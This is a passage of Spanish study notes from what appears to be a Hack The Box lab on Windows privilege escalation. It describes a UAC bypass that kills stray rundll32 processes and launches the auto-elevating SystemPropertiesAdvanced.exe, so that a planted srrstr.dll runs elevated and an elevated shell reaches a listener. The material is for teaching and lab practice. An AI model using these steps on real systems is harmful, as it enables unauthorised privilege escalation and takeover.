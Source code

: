 ### `tasklist /svc | findstr "rundll32"`

```
C:\htb> tasklist /svc | findstr "rundll32"
rundll32.exe                  6300 N/A
rundll32.exe                  5360 N/A
rundll32.exe                  7044 N/A
```

* **`tasklist /svc`** lista procesos y servicios asociados. `findstr "rundll32"` filtra las líneas que contienen `rundll32`.
* **Salida en el texto:** Muestra varios procesos `rundll32.exe` con distintos PIDs.

### `taskkill /PID <PID> /F`

* **`taskkill`** mata procesos por PID. ` /F` fuerza la terminación.
* **Uso en el ejemplo:** Se terminan los procesos `rundll32.exe` residuales antes de ejecutar el binario auto-elevador para asegurar comportamiento consistente.

```
C:\htb> taskkill /PID 7044 /F
SUCCESS: The process with PID 7044 has been terminated.

C:\htb> taskkill /PID 6300 /F
SUCCESS: The process with PID 6300 has been terminated.

C:\htb> taskkill /PID 5360 /F
SUCCESS: The process with PID 5360 has been terminated.
```

---

## 17. Ejecutar la versión 32-bit de SystemPropertiesAdvanced.exe

```
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

* **Por qué SysWOW64:** En sistemas 64-bit, los ejecutables 32-bit residuales o versiones específicas se encuentran en `C:\Windows\SysWOW64`. La técnica 54 ataca la versión de 32-bit del binario.
* **Efecto buscado:** Este binario es auto-elevador y, debido al fallo de carga de `srrstr.dll`, cargará la DLL colocada en `WindowsApps` según el orden de búsqueda. Como `SystemPropertiesAdvanced.exe` se ejecuta con privilegios elevados, la DLL cargada se ejecuta en contexto elevado.

---

## 18. Conexión elevada recibida y verificación de privilegios

* **Listener muestra la conexión entrante.** En el ejemplo, la IP del objetivo y el banner de Windows aparecen en la consola del atacante.

### `whoami` y `whoami /priv` desde la shell recibida
